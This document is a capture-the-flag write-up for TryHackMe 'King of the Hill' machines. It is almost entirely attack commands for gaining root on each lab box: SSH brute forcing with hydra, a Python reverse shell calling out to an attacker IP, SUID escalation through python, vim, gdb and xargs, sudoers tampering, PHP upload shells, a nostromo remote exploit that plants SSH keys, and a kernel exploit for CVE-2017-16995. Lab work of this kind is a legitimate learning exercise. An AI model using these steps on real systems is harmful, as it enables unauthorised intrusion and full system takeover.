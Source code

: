 # TryHackMe `King of the Hill (KOTH)` writeup

#


## Panda

ssh shifu@$IP
password: batman

sudo -l



## offline

msfconsole -> eternalblue


## Hackers

use anonymous login on ftp. You will have a note saying that there is users with weak passwords.

only one of them is actually weak so time to hydra'ate.

`hydra ssh://$IP -l rcampbell -P ../../res/rockyou.txt -t 64` and use the creds to ssh.
> -t 64 is allowed here. Ignore -t 4 warning.

Now time to check capabilities. `getcap -r / 2> /dev/null`.

Oh python3 has setuid. Gotcha. Use `python3 -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'`

boom. You are root.



## H1:Hard

on oprt 80 -> admin:niceWorkHackerm4n

then on shell use python3 revshell `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.42.183",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

then change to admin user using `ssh admin@localhost -t "bash --noprofile"`

change PATH with `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:`

then use `sudo chmod +s /bin/bash && /bin/bash -p`

then fdisk -l to list mounts

then mount it with `sudo mount /dev/xvda1 /mnt`

`(phoenix/.ssh/id_rsa.pub)` append to local `authorized_keys` then try to ssh into that account

then just sudo to root.


## Shrek

check the robots.txt file on port 80, it will give endpoint which will give ssh key for shrek user

`ssh -i id_rsa shrek@$IP`

then use SUID for gdb and get root.

change to proper root through changing the sudoers(Don't forget to change file permissions of sudoers)




## Fortune

get the base64 from `nc $IP 3333`

Convert that hash to file from online or anything.

use ` fcrackzip -v -u -D -p ../../res/rockyou.txt application.zip` to get the passcode of zip.

Then use `unzip application.zip` with passcode to get creds.txt

use this creds to `ssh`

then use `xargs` from gtfobins for SUID to get root.

Then use same sudoers technique to gain real root instead effective root.



## Food

there is a direct shell access on port `46969`

use `telnet $IP 46969`

You will be given user:password but they are ciphered with ceaser cipher. After decoding it is `food:givemecookies`

now `vim.basic` is a SUID. Use it to change /etc/sudoers and add food to run everything.

now `sudo su` with password or You can use NOPASSWD: ALL in /etc/sudoers too

DON"T forget to remove sudo privilleges from food once you get the root.



## Hogwarts

FORGET EVRYTHING AND RUN nmap scan and get the ports of the machine.

run `nmap -p- -vvv -sV $IP` or if you are really late then `nmap -p-20000 -vvv -sV $IP`

Better solution is to use browser based machine of thm. It will be life saver.

then login to ftp with anonymous and cd into `cd .../...`

you will have hidden .zip file. use `fcrackzip -v -u -D -p ../../res/rockyou.txt .I_saved_it_harry.zip` to crack password.

you will get ssh credentials for machine in `boot/.pass` it was this one in last attempt `neville:6mvv5yrw5ir55njoo45cf62l7`. Now ssh is on different port so that's why nmap scan is required.

Then it is just SUID.


## Tyler

On pert 80 webpage check /betatest which will show /etc/passwd so we get the username `narrator`.

now use `smbclient \\\\$IP\public` and get the alert.txt which includes the password for the user.

now use `/usr/bin/vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'` as vim is SUID binary.

Now classic change the /etc/sudoers to get the proper root.


## Carnage

On port 82 use burpsuit to upload the shell.gif.php by changing the content type image/gif.

Get the reverse shell, now add your `id_rsa.pub` to `/home/duku/.ssh/authorized_keys` and ssh into duku.

now go to /tmp/tmux-0, Now we will use already running tmux session and tap into it to become root.

use `tmux -S default attach -t default`

Now for the king.txt, it is attributed to append only mode. use `echo PhoenixCreation >> /root/king.txt`.


## Production

`ftp $IP` use anonymous login and get the id_rsa.

then `chmod 600 id_rsa` and `ssh -i id_rsa ashu@$IP`

then use `sudo /bin/su skidy` to become skidy.

then use `sudo /bin/git -p help config` and then `!/bin/sh` to get the root.

> On port 9001, use `nc $IP 9001` with password `yourmom!` to get ashu's shell.

> On port 9002, use `nc $IP 9002` to get direct root shell but it is restricted.


## Lion

on port 8080 there is nostromo runnning which is exploitable through python script.

Get the exploit by `searchsploit -m multiple/remote/47837.py`. Comment the cve-2019 part in code. there is problem in it.

then run `python2 47837.py $IP 8080 "mkdir /home/gloria/.ssh; echo '<id_rsa.pub>' > /home/gloria/.ssh/authorized_keys"`

now `ssh gloria@IP`

this is where another exploit comes in picture. `https://github.com/rlarabee/exploits/tree/master/cve-2017-16995`.

Get the .c file and compile it with `gcc --static cve-2017-16995.c -o exploit && chmod +x exploit`

now you are root. change the passwd and ssh into root for better expierence.


## TIPS

Find flags easily: `find / -name *flag*.txt -exec cat "{}" \; 2> /dev/null | egrep -i 'THM'` (Also you can use just `*flag*` but it would be bit slower.)

